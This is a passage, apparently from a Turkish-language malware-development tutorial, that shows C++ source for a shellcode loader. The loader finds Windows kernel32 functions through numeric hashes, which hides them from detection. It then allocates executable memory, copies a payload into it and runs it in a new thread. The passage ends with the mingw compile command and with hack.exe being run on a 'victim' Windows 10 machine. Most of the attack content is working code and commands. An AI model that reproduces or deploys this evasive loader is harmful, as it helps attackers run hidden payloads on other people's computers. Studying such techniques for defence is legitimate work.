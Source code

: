 ```cpp
"\x2e\x2e\x5e\x3d\x00";

int main() {
  HMODULE mod = getKernel32(56369259);
  fnGetModuleHandleA myGetModuleHandleA = 
  (fnGetModuleHandleA)getAPIAddr(mod, 4038080516);
  fnGetProcAddress myGetProcAddress = 
  (fnGetProcAddress)getAPIAddr(mod, 448915681);

  HMODULE hk32 = myGetModuleHandleA("kernel32.dll");
  fnVirtualAlloc myVirtualAlloc = 
  (fnVirtualAlloc)myGetProcAddress(
    hk32, "VirtualAlloc");
  fnCreateThread myCreateThread = 
  (fnCreateThread)myGetProcAddress(
    hk32, "CreateThread");
  fnWaitForSingleObject myWaitForSingleObject = 
  (fnWaitForSingleObject)myGetProcAddress(
    hk32, "WaitForSingleObject");

  PVOID lb = myVirtualAlloc(0, sizeof(my_payload),
  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
  memcpy(lb, my_payload, sizeof(my_payload));
  HANDLE th = myCreateThread(NULL, 0, 
  (PTHREAD_START_ROUTINE)lb, NULL, 0, NULL);
  myWaitForSingleObject(th, INFINITE);
}

```

Gördüğünüz gibi, aynı hash algoritmasını kullandım.     

### demo

Haydi bunu derleyelim:    

```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -Wint-to-pointer-cast \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![injection](./images/47/2022-04-05_02-15.png){width="80%"}    

ve çalıştırıyoruz (kurbanın `Windows 10 x64` makinesinde):     

```powershell
.\hack.exe
```

![injection](./images/47/2022-04-05_02-19.png){width="80%"}    
